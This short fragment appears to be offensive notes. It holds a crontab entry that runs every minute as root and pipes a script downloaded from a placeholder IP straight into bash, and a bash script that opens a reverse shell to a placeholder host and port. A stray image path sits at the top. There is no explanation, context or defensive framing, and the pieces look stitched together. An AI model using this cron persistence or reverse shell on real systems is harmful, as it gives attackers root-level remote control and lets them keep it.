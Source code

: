 * *     * * *   root    curl http://<IP>:8080/shell | bash



#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1

